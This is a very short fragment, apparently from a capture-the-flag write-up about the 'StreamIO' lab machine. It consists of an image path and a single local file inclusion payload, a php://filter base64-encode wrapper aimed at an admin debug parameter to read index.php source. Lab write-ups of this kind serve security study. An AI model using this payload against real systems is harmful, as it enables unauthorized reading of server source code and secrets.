 PHP wrapper to perform LFI:

```bash
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```

